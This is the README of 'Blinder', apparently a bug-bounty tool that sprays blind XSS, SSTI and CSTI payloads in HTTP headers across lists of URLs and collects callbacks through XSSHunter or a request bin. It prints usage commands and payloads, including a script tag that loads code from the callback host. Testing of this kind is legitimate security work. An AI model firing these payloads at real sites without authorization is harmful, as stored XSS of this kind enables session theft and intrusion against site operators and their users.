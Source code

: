 # Blinder
- A script written in python3 to spread blind cross-site scripting payloads on HTTP requests headers

## Description
- Blinder is an automation tools written in python3, used to spread sending blind payloads into HTTP servers using XSShunter or custom requests bin, with custom payloads so you can test for more issues like SSTI, CSTI and XSS

![preview](https://i.imgur.com/RugY1vS.png)

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

# How To Use:
## Basic:
- You Can Run Blinder In a Basic Usage By Just Using This Command. Where `-u` Options Is Your XSSHunter Username And `-f` Is The File That Contains The URLs With NewLine Seprator
```
python3 Blinder.py -u hacker -f URLs
```

## Redirections
- To Disallow/Allow Redirections You Can Use `-r` Options With The Rule You Want. Disallowing Redirections Will Make The Tool Faster But It Might Miss Some Results. By Default Redirections Is Allowed On Blinder

- The Redirection Rules Are `allow` and `deny` In LowerCase. The Program Will Trigger An Error In Case You Used Something Else.
```
python3 Blinder.py -u hacker -f URLs -r deny
```
## Payloads and multi payloads.
- In blinder, the default payload we use is `"><script src={xsshunter-url}></script>`, But you can always use your own payload using `-p` argument.
```
python3 Blinder.py -u hacker -f URLs -p '"><img src="XXX">'
```

- If you wanna use more than one payload, you can seperate them using `,` character for example: `"><script>alert(1)</script>,"><svg/onload=alert(1)>`, if your payload requires `,` character and you can't seperate them using that character you can use `-s` option to use another character to-do that

```
python3 Blinder.py -u xsshunter -f URLs -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u xsshunter -f URLs -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

- By default, Blinder uses `XXX` as string to replace with the XSShunter/requestbin URL, incase that can't be used with your payload and your payload contains `XSS` inside of it, you can always use `--replace` argument to use another string to replace it with 

```
python3 Blinder.py -u xsshunter -f URLs -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

## Headers
- By default, Blinder sends the payloads on the `User-agent` header because it's more likely to get stored on web application by requests logs and other stuff, you can use your custom header in case you're testing for a known vulnerability, CVE or anything else

```bash
python3 Blinder.py -u xsshunter -f urls-file.txt --header Header-name 
```

## Requests bin
- You can use your own requests bin, burpcollabrator, interactsh or anything else using `-b` argument

```bash
python3 Blinder.py -b https://request-bin.com/ -f urls-file.txt
```

### What's New?
- Threading to improve the tool performance.
- Added an option allows you to use your own requests bin instead of using XSShunter.
- Added an option where you can use your own payloads instead of the default one.
- Added an option to enable/disable redirects on requests
- Added an option where you can use more than one payload, and choose the splitting character
- Added an option allows you to use your own custom headers on HTTP requests
- Added an option allows you to select your own replace word on the payload
- Cleaner Code!

### Issues:
- Feel free to open an issue on github issue tracker, I usually respond to such stuff quickly
- If you need help, you can always find me [@DemoniaSlash](https://twitter.com/DemoniaSlash) 
